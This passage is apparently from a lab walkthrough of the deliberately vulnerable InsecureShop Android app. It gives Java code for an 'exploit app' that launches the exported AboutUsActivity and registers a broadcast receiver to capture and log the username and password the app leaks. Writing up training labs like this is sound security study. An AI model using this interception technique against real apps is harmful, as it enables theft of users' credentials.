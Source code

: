 But this time, only the `sendBroadcast` function is being implemented without `onReceive`. So what we need to do is just receive this broadcast that has the `"com.insecureshop.action.BROADCAST"` intent to get the username and password. Since the `AboutUsActivity` is exported, we can easily trigger it to send the broadcast, then implement a second exploit app to receive the data. And here is my code for the exploit app:

```java
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // starting the AboutUs Activity to trigger the sendBroadcast
        Intent triggerBroadCast = new Intent();
        triggerBroadCast.setClassName("com.insecureshop", "com.insecureshop.AboutUsActivity");
        startActivity(triggerBroadCast);

       BroadcastReceiver receiver = new BroadcastReceiver() {
           @Override
           // Once a broadcast received with a specific intent
           public void onReceive(Context context, Intent intent) {
                      // Geting the value from the defined extras
                String username = intent.getStringExtra("username");
                String password = intent.getStringExtra("password");
                Log.d("userName: ", username);
                Log.d("password: ", password);
           }
       };
       // Waiting for any broadcast with this intent "com.insecureshop.action.BROADCAST"
       registerReceiver(receiver, new IntentFilter("com.insecureshop.action.BROADCAST"));
    }
}
```

![image.png](/assets/InsecureShop/image%2013.png)
